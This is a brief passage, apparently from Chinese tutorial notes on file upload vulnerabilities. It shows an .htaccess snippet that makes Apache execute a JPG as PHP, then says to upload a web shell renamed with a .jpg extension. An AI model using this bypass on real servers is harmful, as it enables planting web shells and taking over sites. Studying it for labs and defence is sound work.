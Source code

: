 写好.htaccess文件，并上传，通过该文件来配置apache把jpg文件当作php代码执行。

```html
.htaccess文件的配置信息如下
 <FilesMatch "a.jpg"> 
    SetHandler application/x-httpd-php 
 </FilesMatch>
```

![image-20240725211344298](文件上传漏洞/image-20240725211344298.png)	

将shell.php文件该成jpg文件后缀,并上传。

![image-20240725211456455](文件上传漏洞/image-20240725211456455.png)	
